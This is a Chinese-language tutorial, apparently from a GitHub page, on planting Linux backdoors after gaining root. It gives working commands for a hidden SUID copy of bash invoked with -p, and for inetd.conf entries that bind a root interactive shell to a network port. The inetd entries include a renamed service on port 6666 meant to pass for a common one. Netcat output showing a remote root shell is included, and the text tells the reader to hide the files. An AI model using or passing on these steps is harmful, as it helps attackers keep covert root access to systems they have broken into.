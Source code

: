 你现在已经是root用户， 想留一个后门

## suid shell

首先, 先切换成为root用户，并执行以下的命令:
```
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al
 /.woot-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你，肯定能想出很多好的名字的。文件前面的那一点也不是必要的，只是为了隐藏文件( 在文件名的最前面加上“.”，就可以在任意文件目录下进行隐藏) .

现在，做为一个普通用户，我们来启用这个后门:

```
fw@dawg:~$ iduid=1000(fw) gid=1000(fw) groups=1000(fw)
fw@dawg:~$ /.woot.woot-2.05b$ iduid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
```
为什么不行呢?
因为 bash2 针对 suid有一些护卫的措施. 但这也不是不可破的:

```
.woot-2.05b$ /.woot -p
.woot-2.05b# id
uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
```
使用-p参数来获取一个root shell. 这个euid的意思是 effective user id(关于这些ID的知识，可以戳这里)
这里要特别注意的是，作为一个普通用户执行这个SUID shell时，一定要使用全路径。
小知识：
如何查找那些具有SUID 的文件:

`dawg:~# find / -perm +4000 -ls`

这时就会返回具有SUID位的文件啦

## 远程后门：利用inetd.conf

我们使用vi来修改 /etc/inetd.conf 文件
原文件：
```
#chargen dgram udp wait root internal
#discard stream tcp nowait root internal
#discard dgram udp wait root internal
#daytime stream tcp nowait root internal
```
修改为:
```
#discard stream tcp nowait root internal
#discard dgram udp wait root internal
daytime stream tcp nowait root /bin/bash bash -i
```
开启inetd：
```
dawg:~# inetd
```
如果要强制重启inetd：
```
dawg:~# ps -ef | grep inetd
root 362 1 0 Jul22 ? 00:00:00 /usr/sbin/inetdroot 13769 13643 0 17:51 pts/1 00:00:00 grep inetd
dawg:~# kill -HUP 362
```

现在我们就可以用nc来爆菊了：
```
C:tools 192.168.1.77: inverse host lookup failed: h_errno 11004: NO_DATA(UNKNOWN) [192.168.1.77] 13 (daytime) openbash: no job control in this shellbash-2.05b
# bash-2.05b
#bash-2.05b
# id
uid=0(root) gid=0(root) groups=0(root)bash-2.05b
# uname -a
Linux dawg 2.4.20-1-386 #3 Sat Mar 22 12:11:40 EST 2003 i686 GNU/Linux
```
小贴士:
我们可以修改`/etc/services`文件，加入以下的东西：
`woot 6666/tcp #evil backdoor service`
然后修改`/etc/inetd.conf` ：
`woot stream tcp nowait root /bin/bash bash -i`
我们可以修改成一些常见的端口，以实现隐藏。

